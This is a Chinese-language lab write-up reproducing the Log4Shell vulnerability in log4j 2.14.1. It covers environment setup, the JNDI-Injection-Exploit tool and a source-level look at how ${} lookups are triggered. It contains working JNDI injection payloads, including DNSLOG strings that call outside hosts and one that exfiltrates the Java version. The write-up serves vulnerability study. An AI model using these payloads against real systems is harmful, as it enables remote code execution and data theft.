



参考：
https://mp.weixin.qq.com/s/HW2-VRg44ZEFcWxBmDk-CA
环境搭建
java版本
我试过jdk1.8.0_202，8.0.292.hs-adpt。最后是用的jdk1.8.0_102才成功的,具体原因还不知道。

因为使用git bash安装的sdkman改变的java版本貌似只能改变gitbash内的java，不过找到了它下载的路径，于是自己写了一个小脚本来修改java环境变量，
1 | import os |
环境搭建
idea，新建一个maven项目
添加log4j
然后文件-项目结构,模块-依赖，添加库，把log4j-api-2.14.1和log4j-core-2.14.1添加进去。一般搞过java这些东西的，电脑里都会有，用everything搜一下就有了，实在没有的话，去https://archive.apache.org/dist/logging/log4j/2.14.1/下载一个就好了
main 入口类
1 | import org.apache.logging.log4j.LogManager; |
利用方式
JNDI-Injection-Exploit
https://github.com/welk1n/JNDI-Injection-Exploit/releases
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “calc” -A “127.0.0.1”
参数说明
-C ：远程 class 文件中要执行的命令。
-A ：服务器地址，可以是 ip 或者域名
注意事项
- 要确保 1099,1389，8180 端口可用，或下载源码在 run.ServerStart 类 26~28 行更改默认端口，再打包成 jar 包运行
- 命令会作为参数传入 Runtime.getRuntime().exec()，所以需要确保命令传入 exec() 方法可执行。
- bash 等可在 shell 直接执行的相关命令需要加双引号，比如说 java -jar JNDI.jar -C “bash -c …”
因为使用的jdkjdk1.8.0_102，选择rmi://127.0.0.1:1099/pu7fje,ldap://127.0.0.1:1389/pu7fje这两个.
payload:
${jndi:rmi://127.0.0.1:1099/pu7fje}
${jndi:ldap://127.0.0.1:1389/pu7fje}
然后直接右键运行就可以了
然后就是
DNSLOG
利用ceye或者dnglo或者其他平台，获取一个域名
payload:
${jndi:rmi://log4j.xxxxxx.dnslog.cn/exp}
${jndi:rmi://log4j.xxxxxx.ceye.io/exp}
结果
值得注意的是，虽然在域名后面，要加点东西（随便什么都可以），直接甩一个链接上来的话，是接收不到回显的。
这种方式也可以获取一些数据
payload:
${jndi:ldap://${sys:java.version}.collaborator.com}
可以获取的数据如图：
漏洞原理
漏洞触发
本次漏洞触发相当简单，只要使用了org/apache/logging/log4j/spi/AbstractLogger.java log进行记录，且log等级为可记录等级即可触发。
1 | private static final Logger logger = LogManager.getLogger(); |
一旦在log字符串中检测到${}，就会解析其中的字符串尝试使用lookup查询，因此只要能控制log参数内容，就有机会实现漏洞利用。因此也可以使用如下方式触发
1 | logger.error("8881273asdf${jndi:ldap://ip:1389/#Exploit}aksdjfhuip8efas"); |
入口函数
本次漏洞的入口函数为logIfEnabled，然而如果使用了AbstractLogger.java中的debug、info、warn、error、fatal等都会触发到该函数
这次复现使用的就是error

核心原理之匹配
该漏洞的核心原理为，在正常的log处理过程中对 ${ 这两个紧邻的字符做了检测，一旦匹配到类似于表达式结构的字符串就会触发替换机制。
检测的地方在\log4j-core-2.14.1.jar!\org\apache\logging\log4j\core\pattern\MessagePatternConverter.class这个类里面，代码运行到这里的时候，workingBuilder的值是15:12:56.541 [main] ERROR log4j - ${jndi:rmi://127.0.0.1:1099/pu7fje}

检测到${连在一起后，进入log4j-core-2.14.1.jar!\org\apache\logging\log4j\core\lookup\StrSubstitutor.class